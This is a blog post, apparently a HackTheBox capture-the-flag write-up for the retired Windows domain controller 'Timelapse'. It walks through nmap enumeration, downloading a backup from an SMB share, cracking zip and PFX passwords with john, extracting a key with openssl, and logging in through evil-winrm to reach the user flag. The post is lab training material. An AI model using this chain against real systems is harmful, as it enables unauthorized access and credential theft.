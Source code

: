 ```yaml
---
title: "Timelapse"
collection: publications
permalink: /publication/timelapse
excerpt: 'This is a retired machine from HackTheBox'
date: 2023-08-01
venue: '08-01'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/timelapse_header.png)

**LINK:** [Timelapse](https://app.hackthebox.com/machines/Timelapse)

---

## Enumeration : 

Let's scan the target with nmap : 

```bash
# nmap -sV -A -p- 10.10.11.152 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-25 07:04 EDT
Nmap scan report for 10.10.11.152
Host is up (0.14s latency).
Not shown: 65518 filtered tcp ports (no-response)
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-07-25 19:12:30Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49696/tcp open  msrpc             Microsoft Windows RPC
50548/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

the scan reveals 17 open ports :
 * ``DNS`` on port 53
 * ``Kerberos`` on port 88
 * ``ldap`` on port 389 and his hostaname is timelpase.htb

> these open ports suggest that we're dealing with a domain controller.

* Let's check the ``smb`` shares.

![timelapse1](/images/timelapse1.png)

* There is an only open share named *shares* .

![timelapse2](/images/timelapse2.png)

* there is a zip file for ``winrm``, let's download it to our local machine and unzip it.

![timelapse4](/images/timelapse4.png)

* Unfortunately the zip file is password protected, let's use ``zip2john`` to generate a hash that can be brute forced with ``john the ripper``.

```bash
# zip2john winrm_backup.zip > file.john
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
``` 

* using john to brute force it :

![timelapse5](/images/timelapse5.png)

* Let's unzip the file now.

![timelapse6](/images/timelapse6.png)

> PFX files are digital certificates that contain both the SSL certificate (public keys) and private key. They’re essential for establishing secure connections between two devices.

* In order to extract the certificate and the private key, we should run the following commands :

```bash
# openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
# openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pe
```
![timelapse7](/images/timelapse7.png)

* Since we don't have the password, let's convert it to a john hash.

```bash
# pfx2john legacyy_dev_auth.pfx > pfx.john
```

* let's crack it :

![timelapse8](/images/timelapse8.png)

# User Flag :

* After creating the certificate and the key using ``openssl``, let's connect to ``WinRM`` using ``evil-winrm``.

![timelapse9](/images/timelapse9.png)

* Get the user flag. 